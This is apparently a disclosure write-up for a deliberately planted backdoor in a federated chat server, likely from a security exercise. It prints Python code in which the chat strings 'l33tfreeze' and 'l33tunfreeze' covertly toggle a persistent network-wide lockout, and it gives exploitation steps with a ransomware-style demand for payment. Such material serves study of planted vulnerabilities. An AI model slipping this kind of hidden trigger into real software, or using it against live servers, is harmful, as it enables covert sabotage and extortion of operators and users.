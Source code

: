 # Backdoor 2: Covert Control Mechanism (Potential Ransomware Vector)

## Description

This backdoor implements a covert distributed control mechanism disguised as a maintenance mode feature. While it appears to be a legitimate administrative tool, it's actually designed to allow an administrator (or any user who knows the commands) to control other servers for their own gain. It could potentially be exploited in a ransomware-like attack, enabling the disruption of services across multiple servers and the ability to demand payment for restoration.

## Technical Details

The backdoor is implemented within the `handle_public_chat` function of the server. It checks for specific command strings in public chat messages:

```python
async def handle_public_chat(self, message_dict, from_client):
    data = message_dict.get('data', {})
    message_content = data.get('message', '')

    if not from_client:
        # Message is from another server
        if message_content == 'l33tfreeze':
            self.maintenance_mode = True
            self.save_maintenance_mode()
            return
        elif message_content == 'l33tunfreeze':
            self.maintenance_mode = False
            self.save_maintenance_mode()
            return
        else:
            # Deliver to clients on this server
            await self.deliver_message_to_clients(message_dict)
            return
    else:
        # Message is from a client
        # Deliver to clients on this server
        await self.deliver_message_to_clients(message_dict)
        # Forward to all other servers
        message_json = json.dumps(message_dict)
        for server_address, websocket in self.servers.items():
            if server_address != self.address:
                try:
                    await websocket.send(message_json)
                    logger.info(f"Forwarded public chat to server {server_address}.")
                except Exception as e:
                    logger.error(f"Error forwarding public chat to server {server_address}: {e}")
```

When 'maintenance mode' is activated:

- Most server functionalities are restricted
- File operations return a specific error message: "all your server are belong to us"
- Only public chat messages are allowed to pass through

The maintenance mode state is propagated to all connected servers, potentially affecting the entire network. Crucially, this state is saved inside the server's volume, meaning it persists even if the server is restarted, allowing for long-term control.

## Objectives

This backdoor violates several key security principles:

1. Authorization: Allows any user with knowledge of the commands to control critical server states without proper authentication.
2. Availability: Can be used to disrupt normal server operations across multiple servers.
3. Integrity: Modifies server behavior without proper controls or audit trails.
4. Confidentiality: The presence of this backdoor is hidden from regular users and administrators.
5. Non-repudiation: The attacker can deny involvement as the commands look like regular chat messages.

## Exploitation Method (Proof of Concept)

1. Attacker joins the public chat as a regular user.
2. To activate 'maintenance mode' across all servers, attacker sends the following message in public chat:
   ```
   l33tfreeze
   ```
3. The command propagates to all connected servers, potentially disrupting the entire network.
4. Attacker could then demand payment (through public chat or other means) for service restoration.
5. To deactivate 'maintenance mode', attacker sends:
   ```
   l33tunfreeze
   ```
6. The server processes these commands silently, without notifying other users.

## Detection Challenges

- The backdoor is disguised as a legitimate maintenance mode feature, making it appear as a normal administrative tool.
- It's hidden within the public chat handling function, blending in with normal message processing.
- The activation/deactivation commands look like innocuous chat messages.
- No special permissions are required to use these commands, making it difficult to trace the source.
- The maintenance mode state is saved persistently in the server's volume, allowing the effect to persist across server restarts. This makes it harder to detect and remove.
- There's no visible indication to users that the server has entered or exited 'maintenance mode', except for restricted functionality.
